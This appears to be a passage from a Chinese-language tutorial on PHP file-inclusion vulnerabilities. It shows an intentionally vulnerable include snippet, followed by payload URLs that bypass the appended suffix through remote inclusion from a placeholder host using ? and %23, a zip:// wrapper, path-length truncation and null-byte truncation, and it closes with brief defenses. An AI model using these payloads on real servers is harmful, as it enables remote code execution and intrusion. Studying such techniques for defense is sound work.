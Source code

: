 ~~~php
<?php
	$file = $_GET['file'];
	include $file.'/test/test.php';
?>
~~~

### 利用URL特殊符号

#### query(?)

~~~
index.php?file=http://remoteaddr/remoteinfo.txt?
~~~

则包含的文件为 `http://remoteaddr/remoteinfo.txt?/test/test.php`

#### fragment(#)

~~~
index.php?file=http://remoteaddr/remoteinfo.txt%23
~~~

则包含的文件为 `http://remoteaddr/remoteinfo.txt#/test/test.php`

> 注意需要把#进行url编码为%23。

### 利用协议

利用zip协议，注意要指定绝对路径

~~~
index.php?file=zip://D:\phpStudy\WWW\fileinclude\chybeta.zip%23chybeta
~~~

则拼接后为：zip://D:\phpStudy\WWW\fileinclude\chybeta.zip#chybeta/test/test.php

### 长度截断

利用条件：
 
php版本小于5.2.8

目录字符串，在linux下4096字节时会达到最大值，在window下是256字节。只要不断的重复`./`，则后缀`/test/test.php`，在达到最大值后会被直接丢弃掉。

### 0字节截断

利用条件： 
php版本小于5.3.4

~~~
index.php?file=phpinfo.txt%00
~~~

# 防御方案

1. 在很多场景中都需要去包含web目录之外的文件，如果php配置了open_basedir，则会包含失败
2. 做好文件的权限管理
3. 对危险字符进行过滤等等
